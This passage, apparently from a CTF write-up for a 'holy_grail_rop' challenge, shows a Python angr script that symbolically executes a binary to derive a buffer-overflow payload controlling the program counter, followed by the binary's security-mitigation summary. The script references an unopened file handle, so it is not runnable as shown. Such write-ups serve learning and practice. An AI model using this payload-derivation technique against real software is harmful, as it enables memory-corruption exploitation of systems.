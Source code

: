 ```python
import angr, argparse
from pwn import *

def main():
    parser = argparse.ArgumentParser()

    parser.add_argument("Binary")

    args = parser.parse_args()

    TARGET = "DCBA"

    p = angr.Project(args.Binary)
    state = p.factory.blank_state()
    
    simgr = p.factory.simgr(state, save_unconstrained=True)
    simgr.stashes['mem_corrupt']  = []
    
    def check_mem_corruption(simgr):
        if len(simgr.unconstrained):
            for path in simgr.unconstrained:
                if path.satisfiable(extra_constraints=[path.regs.pc == TARGET]):
                    path.add_constraints(path.regs.pc == TARGET)
                    if path.satisfiable():
                        simgr.stashes['mem_corrupt'].append(path)
                    simgr.stashes['unconstrained'].remove(path)
                    simgr.drop(stash='active')
        return simgr

    simgr.explore(step_func=check_mem_corruption)
    if len(simgr.stashes['mem_corrupt']) == 0:
        print("could not derive corrupting payload :(")
        exit(1)
    else:
        dump = simgr.stashes['mem_corrupt'][0].posix.dumps(0)
        f.write(dump[:dump.index(b"ABCD")-4])
            
if __name__ == "__main__":
    main()
```

This script took a binary as an argument, attempted to derive a corrupting payload, and then wrote it to a file for my usage elsewhere. 

# read -> syscall

So, we have a decent (but variable) sized buffer overflow. Where do we go from here? 

```
[*] '/home/sky/battelle-ctf-2021/holy_grail_rop/binary1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
